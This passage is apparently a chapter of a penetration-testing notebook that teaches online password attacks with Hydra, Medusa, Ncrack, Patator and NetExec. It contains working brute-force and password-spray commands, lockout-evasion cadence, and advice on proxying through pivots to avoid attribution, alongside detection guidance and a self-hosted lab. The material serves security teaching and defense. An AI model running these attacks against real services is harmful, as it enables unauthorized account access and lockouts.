### Step 1: capture the real request

Never guess the field names. Open the login page, submit dummy creds, and capture the request — with Burp Suite (Proxy → HTTP history), the browser DevTools Network tab, or `curl -v`. You are looking for three things: the POST path, the exact field names, and the failure text.

Suppose DevTools shows the form POSTs to `/login.php` with body `username=x&password=y&Login=Login`, and a failed login renders the string `Invalid credentials.` in the page. That's everything you need.

### Step 2: build the command

Attacking the classic DVWA / bWAPP-style login in the lab:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  -t 16 -f \
  10.10.10.50 http-post-form \
  "/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid credentials."
```

Dissecting the module string:

- `/login.php` — the POST target path.
- `username=^USER^&password=^PASS^&Login=Login` — the POST body. `^USER^`/`^PASS^` get substituted each attempt. **Include every field the real form sends**, including hidden fields and submit buttons like `Login=Login` — omit one and the app may reject the request outright, producing all-fail results.
- `Invalid credentials.` — the failure string. Hydra flags a login as **successful** whenever this string is **absent** from the response. Choose it carefully: it must appear on *every* failed login and *never* on a success.

Because web servers handle many concurrent connections happily, `http-post-form` tolerates higher thread counts (`-t 16`–`64`) than SSH — subject to rate limiting and WAFs.

Realistic successful output:

```
[DATA] attacking http-post-form://10.10.10.50:80/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid credentials.
[80][http-post-form] host: 10.10.10.50   login: admin   password: password
[STATUS] attack finished for 10.10.10.50 (valid pair found)
```

### F= vs S= — matching failure or success

Sometimes there's no reliable failure string but there *is* a reliable success signal (e.g. a redirect to `/dashboard`, a `Set-Cookie: session=`, or the word "Logout"). Use `S=` instead:

```
".../login.php:username=^USER^&password=^PASS^:S=Logout"
```

Now Hydra treats the presence of `Logout` as success. Rule of thumb: **prefer `F=` on a failure string** because failure pages are usually stable; use `S=` when failure text varies but success is distinctive.

### Extra module parameters (the fourth+ colons)

`http-post-form` accepts optional appended parameters, each introduced by a colon and a letter:

| Param | Purpose | Example |
|---|---|---|
| `H=` | add a custom header (repeatable) | `:H=X-Requested-With: XMLHttpRequest` |
| `C=` | fetch this page first to grab a cookie/CSRF token | `:C=/login.php` |
| `F=` | failure string (default match mode) | `:F=Invalid` |
| `S=` | success string (overrides failure logic) | `:S=Location: /dash` |

Handling a **CSRF token** is the classic advanced case. Many forms include a hidden `<input name="csrf_token">` that changes every page load; a static POST body fails because the token is stale. The `C=` parameter tells Hydra to GET the login page first (picking up the cookie), but Hydra **cannot** parse a dynamic token out of the HTML and re-insert it — that's beyond its capability. When you hit a per-request CSRF token, the correct tools are:

- **ffuf / wfuzz** with a scripted token fetch, or
- a short **Python `requests`** script (Programming for Security notebook) that GETs the page, regex-extracts the token, and POSTs credentials in a loop, or
- **Burp Intruder** with a recursive-grep payload that extracts the token from each response.

Knowing *when Hydra is the wrong tool* is as important as knowing its syntax.



### GET-form variant

If the form submits via GET (credentials in the query string), swap the module to `http-get-form` with the identical three-colon syntax:

```bash
hydra -l admin -P passwords.txt 10.10.10.50 http-get-form \
  "/login:user=^USER^&pass=^PASS^:F=incorrect"
```

**Blue team usage:** form-based brute force is visible in web server access logs as a flood of `POST /login.php 200` from one IP, and in the app's own auth logs as repeated failed logins for one or many users. WAF rate-limiting rules and per-account throttling are the direct counters, covered in Part 11.

---

## Part 9: Password Spraying — the Professional Alternative

Everything so far has quietly assumed the naive model: pick a user, throw many passwords at them. Against any target with an account-lockout policy that is a *self-defeating* strategy — you lock the account long before you exhaust a wordlist, and you generate an unmissable alert. **Password spraying** inverts the loop and is the technique real operators actually use against authenticated services.

The idea: instead of *many passwords against one user*, try **one password (or a handful) against many users**. Almost every organisation of any size has *someone* using `Winter2025!`, `Company@123`, or `Password1`. If you try that single password against 500 usernames, you get at most **one** failed attempt per account — nowhere near a lockout threshold — while statistically landing a valid credential across the population.



### Spraying with Hydra

Hydra sprays naturally: put many users in `-L`, a **single** password in `-p` (or a tiny `-P` file), and crucially loop **users outer** so you exhaust all users at one password before moving on:

```bash
hydra -L users.txt -p 'Winter2025!' -u -t 4 -o spray1.txt ssh://10.10.10.50
```

- `-L users.txt` — the whole user population you enumerated.
- `-p 'Winter2025!'` — one carefully chosen password (season+year+`!` is the eternal favourite).
- `-u` — **loop users first, password second.** Without `-u`, Hydra's default (passwords outer) doesn't matter with a single `-p`, but `-u` becomes essential the moment you have a *few* passwords and want to spray password-by-password with a delay between rounds.
- Space out multiple passwords across time. If policy is "5 failures per 30 minutes", try **one** password across all users, then **wait past the lockout observation window** before the next password. Hydra has no built-in inter-round sleep for this, so scripted sprays (a `for` loop with `sleep`, or a dedicated tool) are the norm.

### Why lockout policy dictates spray cadence

You must know (or safely estimate) the lockout policy before spraying:

- **Lockout threshold** — how many bad attempts trigger a lock (commonly 3–10).
- **Observation window** — the period over which those attempts are counted (commonly 15–30 min).
- **Lockout duration** — how long the account stays locked.

The safe rule: **attempts-per-account within one observation window < threshold**, always with a margin (threshold − 2). One password per window is the conservative default. For Windows/AD, `nxc smb <dc> -u users.txt -p 'Password1' --continue-on-success` reads and respects the policy and is the standard spraying tool; Hydra is the generic cross-protocol option.

**Red team usage:** spraying is often the *initial access* technique on an internal pentest — enumerate users from AD/LinkedIn, spray one seasonal password, land a foothold, no lockouts, minimal noise. **Blue team usage:** spraying defeats simple per-account lockout detection precisely because each account sees only one failure. Detecting it requires correlating **failures across many accounts from one source** (or one password) in a window — a horizontal, not vertical, detection. This is the single most important online-attack detection concept and is expanded in Part 11.

---

## Part 10: Alternatives and When to Prefer Them — Medusa, Ncrack, Patator

Hydra is not the only online cracker, and part of expertise is choosing the right one.

**Medusa** — a parallel brute-forcer with a similar goal and, some argue, cleaner threading for certain modules. Syntax differs:

```bash
medusa -h 10.10.10.50 -U users.txt -P passwords.txt -M ssh -t 4
# -h host, -U userfile, -P passfile, -M module, -t threads
```

Medusa's design does per-host and per-user parallelism differently, and for large host lists (`-H hosts.txt`) it can be more efficient. Its module names and options differ from Hydra's; check `medusa -d` for the module list and `medusa -M http -q` for module-specific help.

**Ncrack** — from the Nmap project, tuned for reliability against RDP, SSH and a curated set of services, with a timing-template model like Nmap's `-T`:

```bash
ncrack -p 3389 --user Administrator -P passwords.txt 10.10.10.50
ncrack -p 22 -U users.txt -P passwords.txt -T4 10.10.10.50
```

Ncrack is widely regarded as the **most reliable RDP brute forcer** and integrates with Nmap output. Prefer it when Hydra's `rdp` module gives flaky results.

**Patator** — a Python multi-purpose brute forcer whose party trick is being *modular and scriptable*: it treats each attempt's response (status code, length, message) as data you can filter on, which makes it superb for weird custom HTTP logic, CSRF-token loops, and services Hydra doesn't handle cleanly:

```bash
patator http_fuzz url=http://10.10.10.50/login.php method=POST \
  body='username=admin&password=FILE0' 0=passwords.txt \
  -x ignore:fgrep='Invalid credentials'
# fail-filter on the failure string, like Hydra's F= but far more flexible
```

| Tool | Sweet spot | Weak spot |
|---|---|---|
| **Hydra** | broadest protocol coverage; `http-post-form` for simple web logins | dynamic CSRF; RDP reliability |
| **Medusa** | large host lists; stable threading | fewer modules than Hydra |
| **Ncrack** | RDP, SSH; Nmap integration; timing control | narrower service set |
| **Patator** | custom HTTP logic, response filtering, CSRF loops | steeper learning curve |
| **NetExec (nxc)** | SMB/WinRM/LDAP spraying, lockout-aware, AD-native | Windows-focused |

The professional habit: **Hydra or Patator for web and generic services, Ncrack for RDP, NetExec for Windows/AD.** One tool never wins everywhere.

---

## Part 11: Detection & Defense Angle

Online brute force is the noisiest technique in the offensive catalogue. This section consolidates how it looks from the defensive side and how to stop it — essential for red teamers (to predict what trips you) and mandatory for blue teamers.

### What the attack looks like in the logs

Every protocol leaves a distinctive footprint, all sharing one signature: **many authentication failures from one source in a short window.**

- **SSH** (`/var/log/auth.log`, journald `sshd`): `Failed password for <user> from <ip> port <p> ssh2`, dozens to thousands per minute from one IP. `Failed password for invalid user <x>` if the username doesn't exist — a strong brute-force indicator on its own.
- **Windows / RDP / SMB** (Security event log): **Event ID 4625** (failed logon) in bursts; **4740** (account lockout) if a vertical brute crosses the threshold; **4771/4768** Kerberos pre-auth failures for AD sprays. A spray shows *many 4625s across many accounts* from one workstation/IP.
- **Web forms** (access + app logs): a flood of `POST /login 200` from one IP, or many `401`s for `http-get`. Constant request size and cadence betray automation.



### The controls that actually work

| Control | What it stops | Notes |
|---|---|---|
| **Account lockout policy** | vertical brute force | 5–10 fails → temp lock. Beware DoS-by-lockout; use temporary, auto-unlocking locks |
| **Rate limiting / throttling** | fast brute + spray | delay or drop after N attempts per IP/account/window |
| **fail2ban / SSHGuard** | SSH/FTP/web brute | parse logs, auto-firewall the offending IP after a threshold |
| **MFA / 2FA** | *everything* | a valid password alone is insufficient — collapses the whole attack class |
| **CAPTCHA** | automated form abuse | after N failed web logins |
| **Network exposure reduction** | remote brute entirely | don't expose RDP/SSH/SMB to the internet; VPN + allowlist |
| **Strong password policy** | dictionary/spray success | forbids `Season+Year!`, top-N passwords, username-as-password |
| **Horizontal-failure detection** | password spraying | SIEM rule: >X accounts failing from one IP/one password per window |

The two highest-leverage controls are **MFA** (a cracked password becomes useless) and **horizontal-failure correlation** (the only reliable way to catch a well-paced spray, since per-account lockout never fires). A mature SOC alerts on: single IP causing 4625/failed-SSH across ≥10 distinct accounts in 10 minutes; the same password failing across many accounts; and logins from an IP that just generated a failure storm (possible successful spray → immediate investigation).

### fail2ban in one glance (defensive lab)

```bash
sudo apt install -y fail2ban
sudo tee /etc/fail2ban/jail.d/sshd.local >/dev/null <<'EOF'
[sshd]
enabled = true
maxretry = 5          # 5 failures...
findtime = 600        # ...within 600s...
bantime  = 3600       # ...bans the IP for 1 hour
EOF
sudo systemctl restart fail2ban
sudo fail2ban-client status sshd   # watch banned IPs accumulate under attack
```

Run Hydra against your own fail2ban-protected SSH lab host and watch your attacking IP get firewalled after five attempts — the clearest possible demonstration of why untuned online brute force fails against a defended target, and why *low-and-slow* exists.

---

## Part 12: Hands-On Lab — Build It, Break It, Detect It

A complete, reproducible lab you can stand up on one machine with Docker. **Everything here is your own container/VM. Never point any command in this chapter at a system you do not own.**

### 12.1 Stand up vulnerable targets

```bash
# An SSH target with a known-weak account
docker run -d --name ssh-lab -p 2222:22 \
  -e USER_NAME=bob -e USER_PASSWORD=iloveyou1 \
  linuxserver/openssh-server   # (or build your own; set a rockyou-present password)

# A vulnerable web app with a form login (DVWA)
docker run -d --name dvwa -p 8080:80 vulnerables/web-dvwa
# Browse http://localhost:8080, log in admin/password once, set security = Low
```

Create a tiny, realistic user list and a *small* password list (never rockyou for a live demo — it's too slow to finish):

```bash
printf 'root\nadmin\nbob\nalice\n' > users.txt
printf '123456\npassword\niloveyou1\nWinter2025!\nadmin\n' > small.txt
```

### 12.2 Attack SSH

```bash
hydra -l bob -e nsr -P small.txt -t 4 -f -V -s 2222 ssh://127.0.0.1
```

- `-V` shows every `login:pass` attempt live so you can watch the loop.
- `-s 2222` because our container maps SSH to host port 2222.

Expected (abridged):

```
[ATTEMPT] target 127.0.0.1 - login "bob" - pass "bob" - 4 of 8 [child 0]
[ATTEMPT] target 127.0.0.1 - login "bob" - pass "123456" - 5 of 8 [child 1]
[ATTEMPT] target 127.0.0.1 - login "bob" - pass "iloveyou1" - 7 of 8 [child 2]
[2222][ssh] host: 127.0.0.1   login: bob   password: iloveyou1
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

### 12.3 Attack the DVWA login form

First capture the request. With `curl` you can see the failure string:

```bash
curl -s -c cookies.txt 'http://localhost:8080/login.php' -o /dev/null   # grab session cookie
curl -s -b cookies.txt -d 'username=admin&password=wrong&Login=Login' \
     'http://localhost:8080/login.php' | grep -i 'incorrect\|invalid\|login failed'
```

DVWA re-renders "Login failed" on bad creds. Build the Hydra command around exactly that string. DVWA needs the session cookie, so use `C=`:

```bash
hydra -l admin -P small.txt -t 8 -f \
  127.0.0.1 -s 8080 http-post-form \
  "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed:C=/login.php"
```

- `-s 8080` — host port for the container.
- `C=/login.php` — GET this first to obtain the `PHPSESSID` cookie DVWA requires.
- `F=Login failed` — the failure string; Hydra reports success when it's absent.

Expected:

```
[8080][http-post-form] host: 127.0.0.1   login: admin   password: password
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

### 12.4 Practice the spray

```bash
hydra -L users.txt -p 'Winter2025!' -u -t 4 -V -s 2222 ssh://127.0.0.1
```

Note how each user gets exactly **one** attempt at the single password — the spray shape. In a real AD environment you'd space multiple passwords across lockout windows.

### 12.5 Now put on the blue-team hat

Watch the attack land in the logs while you run 12.2:

```bash
docker logs -f ssh-lab | grep -i 'failed\|authentication'
# or on a real host:
sudo tail -f /var/log/auth.log | grep 'Failed password'
```

You'll see a `Failed password for bob from 127.0.0.1` line for every wrong guess — the exact signal a SIEM or fail2ban keys on. Then add fail2ban (Part 11), rerun, and watch the ban trigger. Attacking and defending the *same* box is how the two halves of this skill lock into place.

### 12.6 Resume an interrupted attack

Kill a long Hydra run with `Ctrl-C` and it writes `./hydra.restore`. Resume exactly where it stopped:

```bash
hydra -R              # restore the previous session from hydra.restore
```

Use `-I` to *ignore* an old restore file and start clean. This matters on long engagements where a run gets interrupted and you don't want to re-attempt (and re-log) thousands of already-tried pairs.

---

## Part 13: Operational Reality, Pitfalls & OPSEC

The gap between "Hydra printed a password in the lab" and "Hydra is useful on a real engagement" is filled with these hard-won lessons.

**Tune threads to the protocol, not to your impatience.** The default `-t 16` is wrong for SSH (drops connections → false negatives) and reckless for RDP/SMB (lockouts). Start low, confirm you're getting real accept/reject responses (use `-V`), then raise cautiously. More threads is not more results if the server is dropping your connections.

**False negatives are the silent killer.** If Hydra reports "0 valid passwords found," that does **not** prove the password isn't in your list. It might mean: connections were throttled/dropped, your failure string was wrong (for `http-post-form`), the account was already locked, a WAF served you a CAPTCHA page (whose body lacked your failure string, so Hydra thought every attempt "succeeded" or "failed" incorrectly), or you had the field names wrong. **Always sanity-check** by manually logging in once with a known-bad and known-good credential and confirming Hydra's verdict matches on both.

**The `http-post-form` failure-string trap.** The most common cause of a broken web attack is a failure string that also appears on success, or doesn't appear on failure. If Hydra reports *every* password as valid, your `F=` string never matched (so absence-of-failure was always true) — usually because the app returned a CAPTCHA/rate-limit page, or the string had a typo, or special characters (`&`, `:`, spaces) confused the colon-parsing. Escape or simplify; pick a short, stable, unique substring of the real error.

**Account lockout is a weapon you can fire at yourself.** A careless vertical brute against AD locks the target user — sometimes *your client's CEO* — which is disruptive, unprofessional, and instantly noticed. Know the policy, prefer spraying, and when in doubt, ask the client for the lockout policy in the rules of engagement.

**OPSEC and attribution.** Every attempt carries your source IP into the target's logs. On a red-team engagement where stealth matters, untuned Hydra is an immediate detection. Mitigations (within authorised scope): route through a **SOCKS proxy / pivot** so the traffic originates from an internal foothold rather than your workstation, drastically reduce rate, and prefer spraying's one-attempt-per-account profile. Hydra honours proxies via environment variables:

```bash
# Route Hydra through a SOCKS5 pivot (e.g. an SSH dynamic tunnel / Ligolo-ng)
export HYDRA_PROXY=socks5://127.0.0.1:1080
hydra -l bob -P small.txt -t 2 ssh://10.10.10.50    # now egresses via the pivot
# HYDRA_PROXY_HTTP=http://127.0.0.1:8080 for HTTP-CONNECT proxying of http-* modules
unset HYDRA_PROXY   # remember to clear it afterwards
```

**Wordlist discipline wins.** Because online throughput is tiny, the *quality* of your (small) list matters far more than offline. A curated list of 20 target-relevant guesses (company name + season/year + special char, appliance defaults, `-e nsr`) beats rockyou's first 20,000 entries, and finishes before the account locks. Everything from Chapter 2 (CeWL scraping the target's own site, targeted mangling) applies here at small scale.

**Know when to stop and switch tools.** Dynamic CSRF → Python/Burp/Patator. Windows/AD → NetExec. RDP flakiness → Ncrack. Hydra is a broad generalist; reaching for the specialist tool when the generalist struggles is a mark of experience, not defeat.

---

## Part 14: Final Revision / Summary

The one paragraph to carry forward: **online brute force attacks a live service that logs and rate-limits you, so it is measured in tens of guesses per second, not billions — the opposite of the offline cracking in Chapters 1–2.** Hydra is the standard tool, driven by a uniform grammar (`-l/-L` users, `-p/-P` passwords, `-t` threads, `service://target`) across ~50 protocol modules. The simple modules (SSH, FTP, RDP, SMB, `http-get`) are near-identical; the hard one is `http-post-form`, whose three-colon `PATH:BODY:F=failstring` syntax you must build from a captured real request. Because every attempt is logged and any lockout policy defeats a naive vertical brute, the professional technique is **password spraying** — one password across many users, paced under the lockout window — and the professional habit is a tiny curated wordlist plus `-e nsr`, not rockyou. Defensively, the attack is loud: bursts of SSH `Failed password` / Windows Event 4625 from one source, caught by fail2ban and, for sprays, by horizontal (many-account) failure correlation — and neutralised almost entirely by MFA. Choose the right tool: Hydra/Patator for web and generics, Ncrack for RDP, NetExec for Windows/AD.

Key mental hooks:

- **Uppercase = file, lowercase = single.** `-L`/`-P` are files; `-l`/`-p` are single values. Backwards is the #1 syntax bug.
- **`-e nsr`** — free wins: null, same-as-user, reversed. Always include.
- **`http-post-form` = `PATH:BODY:F=fail`.** Capture the real request first; include every field; pick a failure string that appears *only* on failure.
- **Spray, don't brute.** One password × many users beats many passwords × one user against anything with lockout.
- **Online is loud.** If offline is possible (you have the hash), do that instead.

---

## Part 15: Cheat Sheet / Quick Reference

```bash
# ---- Core grammar ----
hydra -l USER   -p PASS      target service      # single user, single pass
hydra -L users.txt -P pass.txt target service    # files (cross-product!)
hydra -C combo.txt target service                # login:pass pairs, no cross-product
hydra -l USER -e nsr -P pass.txt target service  # + null / same / reversed
# Key flags: -t THREADS  -w WAIT  -f stop-on-hit  -o out.txt  -s PORT  -S ssl  -V verbose  -u users-outer  -R restore

# ---- SSH (4 threads!) ----
hydra -l bob -e nsr -P rockyou.txt -t 4 -f ssh://10.10.10.50

# ---- FTP (test anonymous first) ----
hydra -L users.txt -P pass.txt -t 8 -f ftp://10.10.10.50

# ---- RDP (single thread, lockout risk; Ncrack often better) ----
hydra -l Administrator -P pass.txt -t 1 -W 5 rdp://10.10.10.50

# ---- SMB (prefer NetExec for AD) ----
nxc smb 10.10.10.50 -u users.txt -p pass.txt

# ---- HTTP Basic / Digest (keys off status code) ----
hydra -L users.txt -P pass.txt 10.10.10.50 http-get /admin/
hydra -L users.txt -P pass.txt -S 10.10.10.50 https-get /admin/

# ---- HTTP POST form  PATH:BODY:F=fail  ----
hydra -l admin -P rockyou.txt -t 16 -f 10.10.10.50 http-post-form \
  "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Invalid credentials."
#   add :C=/login.php to grab a session cookie/CSRF first
#   use :S=Logout instead of F= when success is easier to detect

# ---- Password spray (one pass, many users, users-outer) ----
hydra -L users.txt -p 'Winter2025!' -u -t 4 -o spray.txt ssh://10.10.10.50

# ---- Brute charset instead of a list ----
hydra -l admin -x 6:8:a ssh://10.10.10.50      # 6-8 lowercase; a=alpha 1=num A=upper

# ---- Multiple targets / restore / proxy ----
hydra -M targets.txt -L users.txt -P pass.txt ssh
hydra -R                                        # resume aborted session
export HYDRA_PROXY=socks5://127.0.0.1:1080      # egress via a pivot

# ---- Alternatives ----
medusa -h 10.10.10.50 -U users.txt -P pass.txt -M ssh -t 4
ncrack -p 3389 --user Administrator -P pass.txt 10.10.10.50 -T4
patator http_fuzz url=http://10.10.10.50/login.php method=POST \
  body='username=admin&password=FILE0' 0=pass.txt -x ignore:fgrep='Invalid'

# ---- Defense (run against your OWN lab) ----
# fail2ban jail: maxretry=5 findtime=600 bantime=3600
sudo fail2ban-client status sshd
sudo tail -f /var/log/auth.log | grep 'Failed password'
```

| Symptom | Likely cause | Fix |
|---|---|---|
| `Compiled without LIBSSH support` | built without `libssh-dev` | install `libssh-dev`, rebuild |
| Every password reported valid | `F=` string never matched (CAPTCHA/typo) | capture real request; fix failure string |
| 0 found but creds are correct | threads dropped / lockout / wrong fields | lower `-t`, verify manually, check fields |
| SSH very slow / false negatives | too many threads | use `-t 4` or `-t 1` |
| Account locked mid-run | vertical brute vs lockout policy | switch to spraying, space attempts |
| RDP flaky results | Hydra's rdp module | use Ncrack |

---

## Part 16: Practice Labs & Resources

Train this exact skill — online authentication attacks — on targets built for it:

- **TryHackMe — "Hydra"** (dedicated room): walks through Hydra against SSH and a web form; the fastest way to cement the syntax.
- **TryHackMe — "Brute It"** and **"Basic Pentesting"**: SSH brute force into a foothold, then privesc — end-to-end use of Hydra in a kill chain.
- **PortSwigger Web Security Academy — Authentication labs** (free): "Username enumeration via different responses", "Password brute-force via password change", "Broken brute-force protection, IP block", "2FA broken logic". These teach the *web* side — why failure strings and rate-limit bypasses matter — and are best solved with Burp Intruder/Python once you understand what Hydra does under the hood.
- **HackTheBox** starting-point and easy Linux boxes with exposed SSH/FTP (and the classic weak-cred web panels) — practice choosing a *small* targeted list over rockyou.
- **DVWA** and **bWAPP** (self-hosted, Part 12): the standard `http-post-form` practice targets; toggle DVWA's security level to see how added tokens/rate-limits break a naive Hydra command and force you toward Burp/Patator.
- **VulnHub** boxes tagged with weak SSH/FTP credentials for offline-in-a-VM practice with no legal ambiguity.
- **fail2ban** on your own VPS or lab host: attack it with Hydra and watch yourself get banned — the single most instructive defensive exercise for this chapter.

Practice questions to test yourself:

1. You have an NTLM hash from a Responder capture *and* SSH access to the same host's login prompt. Which do you attack, and why is online almost never the right choice here?
2. Write the full `hydra http-post-form` command for a form that POSTs `user`/`pw`/`submit=Go` to `/signin`, renders "Access denied" on failure, and needs a session cookie fetched from `/signin` first.
3. An AD environment locks accounts after 5 failures per 15 minutes. Design a spray of three candidate passwords across 400 users that never risks a lockout. What is the safe cadence?
4. Hydra reports every single password as valid against a web login. Give three distinct causes and how you'd confirm each.
5. From the blue-team seat, why does per-account lockout fail to catch a well-paced password spray, and what detection replaces it?

Work each of these until the answer is immediate. Online brute force is a small tool with a large number of ways to get it subtly wrong — and the difference between an operator who "ran Hydra" and one who *understands* it is entirely in the tuning, the failure-string discipline, the choice to spray, and the awareness of exactly how loud every packet is. The next chapter moves from attacking live services back to the offline world with **John the Ripper**, where the hashes you capture here — and everywhere else in this notebook — get cracked at scale.
